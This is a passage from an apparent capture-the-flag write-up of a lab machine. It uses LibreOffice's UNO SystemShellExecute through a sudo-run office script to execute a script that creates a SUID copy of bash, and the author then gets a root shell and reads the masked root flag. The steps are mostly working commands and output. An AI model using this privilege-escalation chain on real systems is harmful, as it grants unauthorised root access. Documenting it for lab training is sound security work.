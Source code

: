 ```python
shell_execute = service_manager.createInstance("com.sun.star.system.SystemShellExecute")
shell_execute.execute("/tmp/suid.sh", '',1)
```

Now I need two shells, one to start the UNO server and another to execute the python script:

**Shell 1**:
```bash
kai_relay@formulax:/tmp$ sudo /usr/bin/office.sh
```

**Shell 2**:

```bash
kai_relay@formulax:/tmp$ cat suid.sh 
#!/bin/bash

cp /bin/bash /tmp/
chmod u+s /tmp/bash
kai_relay@formulax:/tmp$ chmod +x suid.sh 
kai_relay@formulax:/tmp$ python3 poc.py 
usage: poc.py [-h] --host HOST --port PORT
poc.py: error: the following arguments are required: --host, --port
kai_relay@formulax:/tmp$ python3 poc.py --host localhost --port 2002
[+] Connecting to target...
[+] Connected to localhost
```

Now I have a /tmp/bash with SUID privileges:

```bash
kai_relay@formulax:/tmp$ ls -l bash 
-rwsr-xr-x 1 root root 1396520 Aug  3 17:26 bash
```

I can execute it and have root!:

```bash
kai_relay@formulax:/tmp$ ./bash -p
bash-5.1# whoami
root
bash-5.1# cd /root/
bash-5.1# cat root.txt 
55****************************f0
```